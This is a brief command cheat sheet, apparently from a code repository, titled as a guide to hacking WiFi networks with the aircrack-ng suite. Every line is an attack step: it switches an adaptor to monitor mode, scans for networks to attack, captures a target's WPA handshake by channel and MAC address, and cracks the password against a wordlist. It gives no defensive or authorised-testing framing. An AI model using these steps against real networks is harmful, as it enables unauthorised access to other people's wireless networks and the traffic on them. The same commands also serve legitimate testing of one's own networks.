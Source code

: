 # HACKING WIFI NETWORKS USING AIRCRACK
# lists the network adaptors available and their properties. Note the name of your network adaptor that support monitoring, e.g., wlan1:
    iwconfig
# Change adaptor into monitor mode:
    airmon-ng start wlan1
# See the new adaptor:
    iwconfig
# Search for all wifi available for you to attack and mark the channel and mac address of the wifi you want to attack:
    airodump-ng wlan1mon 
# Capture wpa handshake: (EAPOL)
    airodump-ng -c <channel-no> -w <name-of-output-file> -d <mac-address> wlan1mon : 
# Crack the password:
    aircrack-ng output-above.cap -w wordlist.txt
